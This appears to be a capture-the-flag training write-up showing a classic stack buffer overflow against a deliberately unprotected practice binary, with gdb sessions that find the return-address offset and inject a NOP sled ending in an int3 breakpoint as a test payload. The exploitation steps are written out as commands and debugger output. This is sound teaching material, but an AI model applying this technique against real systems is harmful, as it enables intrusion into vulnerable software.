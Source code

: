 ```
$ ./0_no_protection AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
$
```

With `gdb` we can get a closer view of how the program crashes.

```
$ ./0_no_protection AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
$ gdb -q ./0_no_protection core
Reading symbols from ./0_no_protection...(no debugging symbols found)...done.
[New LWP 5910]
Core was generated by `./0_no_protection AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x41414141 in ?? ()
(gdb)
```

We crash because the program tries to execute code at 0x41414141, wich is the hex value of 'AAAA'.
We have control over the instruction pointer! Next step is to find out at what offset the program
reads this value.

```
(gdb) r AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK
Starting program: /home/larsh/Desktop/ctftraining/evolution/0_no_protection AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK

Program received signal SIGSEGV, Segmentation fault.
0x47474747 in ?? ()
(gdb)
```
This is the hex value of 'GGGG', so we need 5*4=20 bytes padding before the pointer.


```
(gdb) x/a $esp
0xffffcf10:	0x48484848
```

As this program has no protection, we can inject code by giving another argument to the program. As we are not sure where to aim, we add a huge nop-sled before the code that we want to execute. It consists of 0x90-bytes, wich is a no-operation in x86.

We use the instruction '\xcc', `int3` as our payload. This is a breakpoint instruction which triggers a very specific SIGTRAP signal.
It is a clear indicator that we reach our desired payload code.

```
(gdb) r $'AAAABBBBCCCCDDDDEEEEFFFF\x10\xcf\xff\xff' $(perl -e 'print "\x90"x20000 . "\xcc"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/larsh/Desktop/ctftraining/evolution/0_no_protection $'AAAABBBBCCCCDDDDEEEEFFFF\x10\xcf\xff\xff' $(perl -e 'print "\x90"x20000 . "\xcc"')

Program received signal SIGTRAP, Trace/breakpoint trap.
0xffffd1c4 in ?? ()
(gdb) 
```
